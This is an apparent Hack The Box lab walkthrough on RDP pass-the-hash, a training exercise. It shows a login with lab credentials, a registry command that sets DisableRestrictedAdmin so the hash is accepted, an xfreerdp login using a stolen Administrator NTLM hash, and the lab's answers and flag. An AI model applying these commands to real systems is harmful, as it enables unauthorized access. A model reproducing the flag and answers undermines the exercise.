 # RDP

### What is the name of the file that was left on the Desktop? (Format example: filename.txt)

```bash
xfreerdp /v:10.129.203.13 /u:htb-rdp /p:'HTBRocks!' /cert-ignore /dynamic-resolution
pentest-notes.txt
#We found a hash from another machine Administrator account, we tried the hash in this computer but it didn't work, it doesn't have SMB or WinRM open, RDP Pass the Hash is not working.
#User: Administrator
#Hash: 0E14B9D6330BF16C30B1924111104824
```

pentest-notes.txt

### Which registry key needs to be changed to allow Pass-the-Hash with the RDP protocol?

This can be enabled by adding a new registry key `DisableRestrictedAdmin` (REG\_DWORD) under `HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Lsa`. It can be done using the following command:

```powershell
C:\htb> reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

DisableRestrictedAdmin

### Connect via RDP with the Administrator account and submit the flag.txt as you answer.

```bash
#first lets disable restricted admin
#in cmd
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
#then lets rdp with administrator hash
xfreerdp /v:10.129.203.13 /u:Administrator /pth:'0E14B9D6330BF16C30B1924111104824' /cert-ignore /dynamic-resolution
HTB{RDP_P4$$_Th3_H4$#}
```

HTB{RDP\_P4\$$\_Th3\_H4$#}
